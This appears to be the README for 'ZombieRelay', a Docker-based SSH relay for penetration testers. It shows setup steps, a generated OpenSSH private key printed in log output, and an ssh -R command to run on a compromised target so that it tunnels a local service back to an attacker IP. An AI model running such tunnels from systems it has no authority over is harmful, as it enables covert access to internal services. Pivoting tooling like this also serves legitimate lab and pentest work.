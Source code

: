 # Zombie Relay

[PoC post](https://pwnyour.site/2025-04-19-zombie-relay.html) on my blog.

## Usage

```sh
git clone https://github.com/0xyy66/ZombieRelay.git
cd ZombieRelay
docker compose up
```

Everytime you create the container, the compose will automatically create a new private key and print its content, so you can copy-paste it and drop it on the target to connect to the container.

```
...
zombierelay-1  | Use the following private key to access the server
zombierelay-1  | -----BEGIN OPENSSH PRIVATE KEY-----
zombierelay-1  | b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
zombierelay-1  | QyNTUxOQAAACAFqEIsJ1vglEsv4P2PZF2xj6WYlRmWFOJucCCFBAt1hAAAAIhlWMJQZVjC
zombierelay-1  | UAAAAAtzc2gtZWQyNTUxOQAAACAFqEIsJ1vglEsv4P2PZF2xj6WYlRmWFOJucCCFBAt1hA
zombierelay-1  | AAAEAN7V7UYQEnKO7vrOZmGGR7EulGE3Cjco41Jf7xbK9pPQWoQiwnW+CUSy/g/Y9kXbGP
zombierelay-1  | pZiVGZYU4m5wIIUEC3WEAAAAAAECAwQF
zombierelay-1  | -----END OPENSSH PRIVATE KEY-----
...
```

Make sure to remove the container prefix "zombierelay-1 | " from every line.

Or run the following command to copy the key from the container to your host (safest).

```
docker cp $(docker ps -l -q):/root/.ssh/id_ed25519 . 
```

### Tunnel a remote service on your host

In order to correctly tunnel the remote service on your host, you need to drop the private key printed by docker (id_rsa) and run the following command on the target (assuming the target service that interests you runs locally on port 9090).

```sh
ssh -i id_rsa -p 2224 -R *:9090:127.0.0.1:9090 root@10.10.14.20 -N -f
```

The command above corresponds to: `ssh -i <private_key> -p <attacker_ssh_port> -R <attacker_iface>:<attacker_service_port>:<target_iface>:<target_service_port> root@<attacker_ip> -N -f`

### Config

You may need to edit the docker-compose.yaml file to modify the mapped ports or add more.

By default, the following ports are mapped:
- 2224:22 - OpenSSH exposed on your host on port 2224
- 9090:9090 - You can tunnel a remote application on port 9090, it will become accessible on localhost:9090


